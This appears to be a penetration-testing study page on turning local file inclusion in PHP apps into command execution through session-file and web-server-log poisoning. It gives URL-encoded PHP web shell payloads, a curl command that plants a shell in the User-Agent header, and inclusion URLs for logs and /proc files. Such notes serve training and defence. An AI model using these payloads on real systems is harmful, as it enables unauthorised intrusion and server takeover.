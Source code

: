 #### PHP Session Poisoning

PHP web apps use PHPSESSID cookies to hold user-related data, enabling session tracking. These details are stored in session files on the server, typically in `/var/lib/php/sessions/` on Linux and `C:\Windows\Temp\` on Windows. File names match PHPSESSID cookie names, e.g., sess\_el4ukv0kqbvoirg7nkp4dncpk3.

1. Check session id
2.  Try including the session file:&#x20;

    `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`
3.  Write url encoded php shell to session by changing the url parameter&#x20;

    `http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
4.  Now it will be saved to session so execute it by&#x20;

    `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`
5. Refer HTB academy for full context.

#### Server Log poisoning

Both Apache and Nginx maintain various log files, such as _access.log_ and _error.log_.&#x20;

_Apache_ -> `/var/log/apache2/` or `C:\xampp\apache\logs\`&#x20;

_Nginx_ -> `/var/log/nginx/` or `C:\nginx\log\`&#x20;

It includes **User-Agent header** so we can control it We need read access over the logs(mostly only by root but older ones have lower privilege req.) .

Use burp to modify user-agent or curl with&#x20;

```
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Then run&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../var/log/apache2/access.log&cmd=id
```

&#x20;**NOTE**: `&cmd not ?cmd`&#x20;

**Tip**: The User-Agent header is also shown on process files under the Linux `/proc/`directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

Try these too:

* /var/log/sshd.log
* /var/log/mail
* /var/log/vsftpd.log

If the ssh or ftp services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the mail services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability.
